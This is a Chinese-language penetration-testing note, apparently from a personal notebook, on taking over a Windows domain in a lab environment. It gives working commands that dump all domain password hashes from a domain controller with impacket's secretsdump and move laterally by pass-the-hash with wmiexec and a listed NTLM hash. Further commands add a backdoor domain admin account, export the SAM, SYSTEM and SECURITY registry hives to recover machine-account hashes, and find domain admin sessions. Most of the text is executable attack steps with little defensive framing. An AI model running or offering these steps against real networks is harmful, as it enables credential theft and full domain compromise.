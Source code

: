 
在kali中安装好impacket包<br />项目地址：[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)<br />git clone [https://github.com/CoreSecurity/impacket.git](https://github.com/CoreSecurity/impacket.git)<br />cd impacket/<br />python setup.py install

安装好impacket包之后，利用从impacket中的secretsdump脚本(在examples目录下) NTDS.DIT文件远程dump域内所有密码哈希。Kali走上代理流量直接打<br />proxychains python secretsdump.py god.org/'owa$'@1.1.1.20 -no-pass<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826456260-aafbf648-502d-4d93-aeec-27ac4b7c41c7.png#height=780&id=BBPSb&originHeight=780&originWidth=1005&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1005)<br />利用域管的哈希横向过去<br />python .\wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:ed74a5f9126e59fad90675a5df9650c4 god.org/administrator@1.1.1.20<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826456619-fcdcdb2d-f0a1-46b6-99e9-aa1268ab58fb.png#height=651&id=EuWhW&originHeight=651&originWidth=1183&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1183)<br />横向获取了域管权限之后，直接添加一波域管<br />net user aufeng root@123 /add /domain<br />net group "domain admins" aufeng /add /domain<br />再查看，确定是domain admins权限。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826456984-9c20404f-69f4-465e-b57f-7a595a125e7c.png#height=597&id=uHRKQ&originHeight=597&originWidth=901&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=901)<br />为了防止出现脱域的情况，需要恢复一波账户密码，步骤如下

> reg save HKLM\SYSTEM system.save<br />> reg save HKLM\SAM sam.save<br />> reg save HKLM\SECURITY security.save<br />> get system.save<br />> get sam.save<br />> get security.save<br />> del /f system.save<br />> del /f sam.save<br />> del /f security.save<br />但有时候会出现其他的情况，例如<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826457278-5220b5c5-e8b9-41c1-a82e-2f05805eda5c.png#height=250&id=PVyrR&originHeight=250&originWidth=831&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=831)<br />但是这个时候，可以把save后缀修改为其他后缀，导出来后再修复为save就可以<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826457613-4f288694-ccd6-460c-ba36-05ca0a3e5da0.png#height=379&id=D7BHP&originHeight=379&originWidth=920&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=920)<br />把3个save文件都放置在secretsdump脚本的目录下，获取MACHINE.ACC的哈希值<br />python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826457904-abcb19e2-e62d-4905-8d53-ecc3955966b2.png#height=569&id=XkhLo&originHeight=569&originWidth=900&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=900)<br />然后再利用reinstall_original_pw脚本恢复域控的密码。<br />python .\reinstall_original_pw.py owa 1.1.1.20 ed2fc29a9f837ab4c44535d2a2545861

![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826458292-d360cc27-8735-4c98-a54d-583699ce73a0.png#height=593&id=gCdHJ&originHeight=593&originWidth=1205&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1205)<br />再检测一下是否空密码可以登陆，如果失败了，那就是恢复密码成功<br />proxychains python secretsdump.py god.org/'owa$'@1.1.1.20 -no-pass<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826458736-6e16d88e-1c51-49c8-a805-18ce9fb78d9f.png#height=89&id=jq1bn&originHeight=89&originWidth=931&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=931)

 
<a name="HG4pA"></a>
## 域管理员进程
需要本地管理员才能看到，使用tasklist /v，输出到文本啥的。可以想办法上线cs、msf啥的进程迁移到域管理员进程，然后添加域管理员账号<br />需要administrator权限才能看到域管理员，其他本地管理员组是无法看到的域管理员进程的<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394477983-2e80cb21-af57-4d1c-906a-4f3f6636d5f0.png#height=226&id=Asa0V&originHeight=881&originWidth=1741&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=447)<br /> 
<a name="OChww"></a>
### 定位域管
<a name="c7x3P"></a>
#### Psloggedon
·       -l：仅显示本地登录，不显示本地和网络资源登录<br />·       -x：不显示登录时间<br />·       \\计算机名：指定要列出登录信息的计算机的名称<br />·       用户名：指定用户名，在网络中搜索该用户登录的计算机，该功能实现有问题(需要管理员权限

.\PsLoggedon64.exe -l 查看本地谁登陆过<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615736093612-928fc98b-e150-4940-8e7f-da90c726157e.png#height=179&id=ze5vd&originHeight=239&originWidth=629&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16693&status=done&style=none&title=&width=472)<br />Psloggedon工具
